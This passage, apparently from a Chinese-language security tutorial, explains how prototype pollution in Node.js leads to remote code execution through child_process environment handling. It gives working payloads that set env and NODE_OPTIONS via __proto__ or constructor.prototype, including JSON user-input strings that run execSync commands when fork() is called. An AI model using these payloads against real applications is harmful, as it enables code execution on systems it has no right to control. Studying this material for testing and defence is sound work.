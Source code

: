 ```javascript
  if (value !== undefined) {
    ArrayPrototypePush(envPairs, `${key}=${value}`); // <-- 污染点
  }
}
```

通过污染 `envPairs`，可以**在环境变量中插入恶意值**。关键是要污染 `.env` 属性，使得新环境变量成为第一个被加载的。

---

#### 污染 `__proto__`

由于 Node.js 的 `child_process` 模块中 `normalizeSpawnArguments` 函数的特性，只要污染了任意属性，就能**设置新的环境变量**。
例如，污染 `__proto__.avar="valuevar"` 会使得进程运行时带有 `avar=valuevar` 环境变量。

为了让环境变量成为第一个加载的，需要污染 `.env` 属性（某些方法中该变量会成为首个）。

```javascript
const { execSync, fork } = require("child_process");

Object.prototype.env = {
  EVIL: "console.log(require('child_process').execSync('touch /tmp/pp2rce').toString())//",
};
Object.prototype.NODE_OPTIONS = "--require /proc/self/environ";

// 触发利用点
const proc = fork("./a_file.js"); // 此时会创建 /tmp/pp2rce 文件

// 利用漏洞代码
USERINPUT = JSON.parse(
  '{"__proto__": {"NODE_OPTIONS": "--require /proc/self/environ", "env": { "EVIL":"console.log(require(\\"child_process\\").execSync(\\"touch /tmp/pp2rce\\").toString())//"}}}',
);

clone(USERINPUT);
const proc = fork("a_file.js"); // 成功执行恶意代码
```

---

#### 污染 `constructor.prototype`

```javascript
const { execSync, fork } = require("child_process");

// 手动污染示例
b = {};
b.constructor.prototype.env = {
  EVIL: "console.log(require('child_process').execSync('touch /tmp/pp2rce2').toString())//",
};
b.constructor.prototype.NODE_OPTIONS = "--require /proc/self/environ";

proc = fork("a_file.js"); // 创建 /tmp/pp2rce2

// 利用漏洞代码
USERINPUT = JSON.parse(
  '{"constructor": {"prototype": {"NODE_OPTIONS": "--require /proc/self/environ", "env": { "EVIL":"console.log(require(\\"child_process\\").execSync(\\"touch /tmp/pp2rce2\\").toString())//"}}}}',
);

clone(USERINPUT);

var proc = fork("a_file.js"); // 执行成功
```

---